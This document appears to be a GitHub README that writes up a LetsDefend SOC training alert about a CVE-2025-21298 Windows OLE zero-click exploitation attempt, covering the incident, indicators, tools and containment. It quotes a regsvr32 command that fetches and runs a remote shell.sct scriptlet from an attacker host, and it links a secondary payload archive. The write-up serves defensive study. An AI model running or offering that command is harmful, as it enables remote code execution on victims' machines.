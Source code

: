 # SOC336-Windows-OLE-Zero-Click-RCE-Detection

# 📄 Project Title:
**Windows OLE Zero-Click RCE Exploitation - CVE-2025-21298 (SOC336 Detection)**

---

## 📅 Incident Details

- **Event ID**: 314  
- **Event Time**: February 4, 2025, 04:18 PM  
- **Detection Rule**: SOC336 - Windows OLE Zero-Click RCE Exploitation Detected (CVE-2025-21298)  
- **Alert Level**: Security Analyst  
- **Classification**: Malware

---

## 📁 Incident Summary

On February 4, 2025, LetsDefend's SIEM triggered an alert for a **zero-click remote code execution (RCE)** exploitation attempt via an RTF attachment exploiting **CVE-2025-21298**.  
An email from `projectmanagement@pm.me` targeting `Austin@letsdefend.io` contained a malicious file (`mail.rtf`), which upon opening, initiated a fileless attack using the **regsvr32.exe** binary.

**Key Details:**

- **Attachment Name**: `mail.rtf`
- **Attachment Hash**: `df993d037cdb77a435d6993a37e7750dbbb16b2df64916499845b56aa9194184`
- **Threat Command**:
  ```
  C:\Windows\System32\cmd.exe /c regsvr32.exe /s /u /i:http://84.38.130.118.com/shell.sct scrobj.dll
  ```
- **Malicious IP**: `84.38.130.118` (Latvia | rixhost.lv)
- **Request URL**:
  - `http://84.38.130.118.com/shell.sct`
  - Secondary Payload: [Attachment.zip](https://files-ld.s3.us-east-2.amazonaws.com/attachment.zip)

---

## 🛠️ Tools Used for investigation

- [VirusTotal](https://www.virustotal.com/)
- [AbuseIPDB](https://www.abuseipdb.com/)
- [ChatGPT](https://openai.com/)
- [URLhaus](https://urlhaus.abuse.ch/)

---

## 📊 Analysis and Actions Taken

- **Detection**: Malicious RTF identified via pattern matching of CVE-2025-21298.
- **Behavior Observed**: Fileless attack leveraging `regsvr32.exe` to execute remote script.
- **Initial Response**: IP flagged and attachment quarantined.
- **Containment**: Endpoint isolated, email purged across system, URL blocked at network level.
- **Escalation**: Incident escalated to Tier 2 SOC analysts for further forensic investigation.

---

## 🔥 Lessons Learned

- Importance of monitoring **fileless attacks** through behavior-based detection.
- **Zero-click exploits** require rapid detection before payload execution.
- Even **legitimate system binaries** like `regsvr32.exe` can be weaponized by threat actors.

---

## 📂 Project Structure

```bash
SOC336-Windows-OLE-Zero-Click-RCE/
├── README.md
├── email_alert.png
├── attachment_hash.png
├── command_execution.png
│   ├── virus_total_analysis.png
│   ├── abuseipdb_lookup.png
│   ├── urlhaus_submission.png
│   └── soc_alert_details.png
